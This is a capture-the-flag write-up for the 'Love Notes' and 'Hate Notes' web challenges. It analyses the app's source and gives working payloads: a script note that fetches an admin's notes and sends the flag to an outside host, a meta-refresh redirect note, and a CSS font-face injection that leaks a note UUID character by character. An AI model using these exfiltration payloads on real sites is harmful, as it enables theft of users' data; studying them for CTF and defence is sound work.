




# Love Notes

## Challenge Description

- Find the flag from a live website spinned up at `https://love-notes.chal.crewc.tf/`
- The source code of the target site is in `love-notes.tar.gz` for analysis

## Target Website

`love-notes.tar.gz` untared:

```
.
├── docker-compose.yml
└── src
    ├── app.js
    ├── bot.js
    ├── Dockerfile
    ├── models
    │   ├── note.js
    │   └── user.js
    ├── package.json
    ├── public
    │   ├── dashboard.html
    │   ├── index.html
    │   ├── login.html
    │   └── signup.html
    ├── routes
    │   ├── auth.js
    │   └── notes.js
    ├── start.js
    └── static
        ├── auth.css
        ├── dashboard.css
        ├── dashboard.js
        └── index.css
```

The target website contains two services/containers declared in `docker-compose.yml`:
- The website frontend and backend (source code in `/src`)
- `mongodb` for storing users/notes

### Run Your Local Copy

1. You may edit the environment variables like `HOSTNAME` in `docker-compose.yml`
2. You need to remove `secure: true` in `src/routes/auth.js` if you don't have HTTPS setup
3. Just `docker compose up`



### Functionalities of the Target Website

When landing on the target site, one can:
1. Register a new user
2. Login
3. Write a note
4. Let the admin (bot) to review the note by clicking the `report` button



## Source Code Analysis

1. Web server initialization logic in `start.js`
    - Creating first user as admin
        - Username is random UUID
        - Password is random UUID
    - Creating two notes associated with the user
        - The title of first note is the flag to get
2. Backend main logic in `app.js`
    - All HTTP responses are set with strict Content Security Policy (CSP)
        - No inline JavaScript
        - CSS only from `/static/*`
        - No image loading
        - No media loading
        - No iframe
    - Strangely relaxed logic for `/static/*`
        - Redirect if URL not ending in `.js` or `.css`
    - The bot runs as a `Node.js` subprocess when `report` is clicked
        - Launching chrome using `puppeteer`
        - Visiting `/dashboard?reviewNote=uuid`
        - Admin username and password are passed in as process arguments



3. Frontend main logic in `static/dashboard.js`
    - The `reviewNote` function runs if the request URL contains parameter `reviewNote`
        - Adding the content of the note to review to the dashboard
        - Direct string concatenation from `/api/notes/id` API call output
        - No sanitization of the API call output
        - When a user reviews notes, all other parts of dashboard stay the same
            - All notes owned by the user are shown

4. Backend API for adding/geting notes in `/routes/notes.js`
    - The geting note detail API is intentionally left vulnerable
        - Any user can access any note if the note ID is known
        - A CSP hole (no CSP protection in response header) is intentionally poked



## Let's Get the Flag

### Pieces of the Jigsaw Puzzle

1. The flag is the title of the first note of admin user
2. The admin browser can get it with a simple HTTP GET `/api/notes` (no note UUID needed)
3. The admin browser will visit `/dashboard?reviewNote=uuid` when any user click `report`
4. The `/dashboard?reviewNote=uuid` page displays the note to review as well as all notes owned by the user
5. Most `/dashboard` pages block a browser from executing inline JavaScript
6. The getting note API `/api/notes/uuid` is vulnerable to XSS attack (arbitary JavaScript execution)
7. Any user can access any note at `/api/notes/uuid` if the ID of the note is known
8. `/static/` is handled with an opportunity of URL redirection

### Three Ways to Get the Flag

1. [Easy] XSS to leak the flag
    1. JavaScript to get all notes
    2. JavaScript to craft the external URL with flag in URL
    3. Sending an HTTP request to the external URL
2. [Medium] CSS Injection to leak UUID of admin notes
    1. Probing the first note title on `/dashboard` using JavaScript or CSS
    2. Sending an HTTP request to an external URL
3. [Hard] Leaking admin username and password
    1. Exploiting V8 to access the variables in `app.js`

### Key Knowledge to Learn

Simply ask an LLM:

```
What are ways to trigger a browser to send an HTTP request without user interaction?
```

Merged answers from multiple LLMs:

```
1. Resource loading
    - Image
    - Script
    - CSS source
    - iframe
    - Audio/video
    - CSS url()

2. JavaScript
    - fetch()
    - navigator.sendBeacon()
    - XMLHttpRequest
    - WebSocket/SSE/WebRTC connection

3. Redirection
    - <meta> refresh tag
    - HTTP 301

4. Indirect requests
    - Certificate Transparency (CT) logs
    - DNS‑over‑HTTPS (DoH)
    - Web Font bullet‑proof loading
```

Among all options, `<meta>` refresh tag and CSS `url()` are not blocked by the
CSP declared in `app.js`.

### Solution 1: XSS

#### What Do We Know

- The bot will visit `/dashboard?reviewNote=uuid` to show a note added by any
  user, but no inline JavaScript is allowed to execute on that page. Among the
  three requirements, only the last one (no need of JavaScript) can be achieved
  with `<meta>` refresh tag.

- We need JavaScript in a note to be executed. And `/api/notes/uuid` can do that,
  but it is not planned to be visited by the bot when reviewing the note.


#### The Trick

*Two* steps instead of one!!!

1. The bot browser redirects from `/dashboard?reviewNote=uuid2`to `/api/notes/uuid1`
2. The bot browser runs all required JavaScript code at `/api/notes/uuid1` to
fulfill the attack

Note 1 title:
```
<html><body><script>fetch('/api/notes').then(r=>r.json()).then(d=>d[1].title).then(t=>fetch('https://mydomain/lovenotes/'+t));</script><p>
```

Note 1 content:
```
first</p></body></html>
```

Note 2 title:
```
<html><body><meta http-equiv="refresh" content="0;url=/api/notes/uuid1"><p>
```

Note 2 content:
```
second</p></body></html>
```

#### The Devil Is in the Details

- Be careful of the [Chrome
  bug](https://stackoverflow.com/questions/50298340/chrome-changes-url-case)
  when testing `/dashboard?reviewNote=uuid` with an upper-case `N`
- Note 1 needs to execute fast enough within 2 seconds (bot review procedure
  timeout in `bot.js`)
    - Encoding and sending the entire note in param is too slow
    - `window.location.href` is too slow
- Mixed Content Policies prevents `fetch()` visiting a plain HTTP site without
  SSL
    - Self-signed certificate is fine since the bot starts chrome with
      `--ignore-certificate-errors`

### Solution 2: CSS Injection to Leak UUID of Admin Notes

It is not realistic for developers to intentionally poke a CSP hole on the
`/api/notes/id` page. So the challenge author [filled the
hole](https://albertofdr.github.io/post/crewctf-2025/) with a CSP rule that is
even stronger than the default one for all pages. Then we have the _Hate Notes_
challenge (released on the second day of Crew CTF 2025) as the patched version
of _Love Notes_. The difference between _Love Notes_ and _Hate Notes_ is just
one additional line of header in `src/routes/notes.js`:

```
Content-Security-Policy: default-src 'none'
```

Basically it nullifies solution 1 since no inline JavaScript is allowed on any
page now.

#### What Do We Know

- [Jigsaw piece 8] In code analysis, we found the strangely relaxed logic for
  `/static/*` in `app.js`, which redirects if the URL does not end in `.js` or
  `.css`. It basically allows us to do CSS injection.
- [Jigsaw piece 4] The note containing the flag is on the same page as the
  note under review. The first note is matchable by CSS selectors injected from
  the note under review.
- [Knowledge piece 2] `url()` in CSS is not blocked by the CSP in `app.js`.
  More specifically, `font-src` is not defined, thus it opens a door to fetch
  fonts from remote URLs, which realizes the HTTP request to leak data.

#### The Missing Knowledge

The CSS operator `^=` can match the prefix of an attribute. All notes in
`/dashboard` has hypertext links containing the UUID of the note. One can use
`href^=` to probe the UUID character by character and use `url()` to leak the
prefix that exists.

Note 1:

```
@font-face {
  font-family: fonta;
  src: url(https://mydomain/hatenotes/a);
}
@font-face {
  font-family: fontb;
  src: url(https://mydomain/hatenotes/b);
}
@font-face {
  font-family: fontc;
  src: url(https://mydomain/hatenotes/c);
}
...

#notesList li:last-child a[href^="/api/notes/a"] {
  font-family: fonta;
}
#notesList li:last-child a[href^="/api/notes/b"] {
  font-family: fontb;
}
#notesList li:last-child a[href^="/api/notes/c"] {
  font-family: fontc;
}
...
```

Note 2:
```
<link rel=stylesheet href="/static/api/notes/uuid1">
```

It requires 32 steps (64 notes) to probe the entire UUID of the flag note, so I
wrote a [script](hatenotes_solver.py) to get the flag:

```
Create SSL certificate: server.pem
Init user: x
Load firing pin...
Start exfiltration server...
UUID prefix:
UUID prefix: d
UUID prefix: da
UUID prefix: dad
UUID prefix: dad9
UUID prefix: dad9d
UUID prefix: dad9d2
UUID prefix: dad9d2b
UUID prefix: dad9d2bb
UUID prefix: dad9d2bb-3
UUID prefix: dad9d2bb-39
UUID prefix: dad9d2bb-39e
UUID prefix: dad9d2bb-39e8
UUID prefix: dad9d2bb-39e8-4
UUID prefix: dad9d2bb-39e8-4f
UUID prefix: dad9d2bb-39e8-4fb
UUID prefix: dad9d2bb-39e8-4fb1
UUID prefix: dad9d2bb-39e8-4fb1-b
UUID prefix: dad9d2bb-39e8-4fb1-b7
UUID prefix: dad9d2bb-39e8-4fb1-b7d
UUID prefix: dad9d2bb-39e8-4fb1-b7d7
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-8
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-88
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-889
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-8891
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-88917
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-88917d
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-88917dc
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-88917dc5
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-88917dc5c
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-88917dc5c0
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-88917dc5c04
UUID prefix: dad9d2bb-39e8-4fb1-b7d7-88917dc5c046
Flag obtained: crew{get_me}
```
